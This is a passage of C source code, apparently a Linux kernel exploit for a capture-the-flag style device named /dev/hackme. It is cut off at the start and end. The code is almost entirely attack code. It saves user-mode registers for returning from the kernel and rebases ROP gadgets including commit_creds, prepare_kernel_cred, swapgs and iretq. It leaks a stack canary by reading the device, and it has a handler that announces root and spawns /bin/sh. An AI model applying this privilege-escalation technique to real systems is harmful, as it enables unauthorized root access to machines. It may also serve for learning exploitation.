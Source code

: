 ```c
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;

    mov_rdi_rax_jne_pop2_ret += vmlinux_base;

    cmp_rdx_jne_pop2_ret += vmlinux_base;
    swapgs_pop_rbp_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}


int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0};
    size_t canary ; 
    int length =  (0x80 + 0x18 + 0x10);
    int i = 0x10;

    save_status();
    signal(SIGSEGV, shell);

    int fd = open("/dev/hackme" , 2);


    read(fd , buf ,length);

    show(buf , length/8);
    canary = buf[i];

```